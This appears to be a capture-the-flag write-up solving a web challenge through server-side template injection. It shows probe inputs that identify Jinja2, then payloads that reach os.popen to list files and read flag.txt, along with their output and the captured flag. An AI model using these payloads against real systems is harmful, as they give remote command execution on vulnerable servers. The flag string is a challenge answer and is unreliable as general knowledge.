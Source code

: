 Based on the way STI was capitalized in the title i decided to search up 'STI web exploit' and found out about:

> [Server Side Template Injection ](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

To find out the template engine used in the website I attempted the following inputs
```
{{7*7}}  ->  49
{{7*'7'}  ->  7777777
```
This got me `Jinja2` as the engine
After this it was as simple as passing the following
```
{{ namespace.__init__.__globals__.os.popen('ls').read() }}	->	app.py flag.txt requirements.txt templates 
{{ namespace.__init__.__globals__.os.popen('cat flag.txt').read() }}	->	aetherius{Template-Injection-101-240745ae-fce5-42ac-b854-aa5a11963a72}
```
# Flag
`aetherius{Template-Injection-101-240745ae-fce5-42ac-b854-aa5a11963a72}`